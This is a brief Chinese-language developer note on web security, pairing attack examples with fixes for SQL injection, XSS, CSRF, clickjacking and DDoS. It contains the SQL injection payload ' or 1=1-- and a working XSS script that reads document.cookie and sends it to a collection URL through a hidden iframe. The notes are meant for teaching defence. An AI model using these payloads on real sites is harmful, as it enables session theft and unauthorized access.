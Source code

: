 
### web site security

1. sql inject
```
攻击实例： 'or 1=1--
改正方法： sql使用参数化, 不拼sql
```

2. xss cross site scripting

```
攻击实例： 攻击者通常会在有漏洞的程序中插入JavaScript、VBScript、ActiveX或Flash以欺骗用户。一旦得手，他们可以盗取用户帐户信息，修改用户设置，盗取/污染cookie和植入恶意广告等。用 

<script type="text/javascript"> 
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    console.log("cookes: " + cookies);
    var xssURIBase = "http://localhost:9000/v2/xss?cookie=";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
</script>

改正方法：escape input
```
3. csrf Cross-site request forgery

```
攻击实例：  http:xxx.com/posts?title=1212&content=345345
1. 正确使用http method, get , post, put, delete, options, head, patch, trace, connect

攻击实例： http post  register
改正方法： 1. 验证码 2. csrf token 3. 关键业务重复数据密码

ajax: 跨域开放时，给出有限访问的白名单
改正方法： 给出有限访问的白名单


```
4. x-frame cfs

[test frame](./iframe.html)

```
Using X-Frame-Options
DENY
The page cannot be displayed in a frame, regardless of the site attempting to do
so.
SAMEORIGIN
The page can only be displayed in a frame on the same origin as the page itself.
ALLOW-FROM uri
The page can only be displayed in a frame on the specified origin.

Nginx config 
add_header X-Frame-Options SAMEORIGIN;
```

7. Ddos
```
加访问次数限制
```

### 加强安全
1. cookie
```
加密
```

2. 使用https

3. 密码
```
密码加密
```

4. 重复提交
```
 重复提交form 表单  使用token
```

5. mini and fix javascript
```
有点卵用,防小白
```



